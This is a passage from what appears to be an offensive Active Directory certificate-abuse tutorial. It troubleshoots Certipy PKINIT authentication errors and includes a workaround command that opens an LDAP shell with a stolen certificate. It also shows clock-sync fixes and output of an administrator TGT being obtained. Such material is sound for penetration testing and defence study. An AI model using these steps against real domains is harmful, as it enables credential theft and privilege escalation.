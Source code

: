 
### Step 22: Troubleshooting Authentication Issues

**Problem 1: "KDC_ERR_PADATA_TYPE_NOSUPP"**

```
[-] Got error while trying to request TGT: KDC_ERR_PADATA_TYPE_NOSUPP
```

**Cause:** Domain Controller doesn't support PKINIT (certificate-based Kerberos)

**Solution:**
- Ensure DC is Windows Server 2008+ (PKINIT support)
- Check if PKINIT is enabled on DC

**Workaround (if PKINIT disabled):**
```bash
# Use Schannel authentication (alternative)
certipy auth -pfx cert.pfx -dc-ip 192.168.1.10 -ldap-shell
```

---

**Problem 2: Clock Skew**

```
[-] Got error: KRB_AP_ERR_SKEW
```

**Cause:** Time difference > 5 minutes between attacker and DC

**Solution:**
```bash
# Sync time with DC
sudo ntpdate -u 192.168.1.10

# Or
sudo timedatectl set-ntp true
```

---

**Problem 3: Certificate Expired**

```
[-] Got error: Certificate has expired
```

**Cause:** Certificate validity period has passed

**Solution:**
- Request new certificate
- Check template validity period before exploitation

---

**Problem 4: No NTLM Hash Retrieved**

```
[+] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[-] Could not get NT hash for 'administrator': User doesn't have a password
```
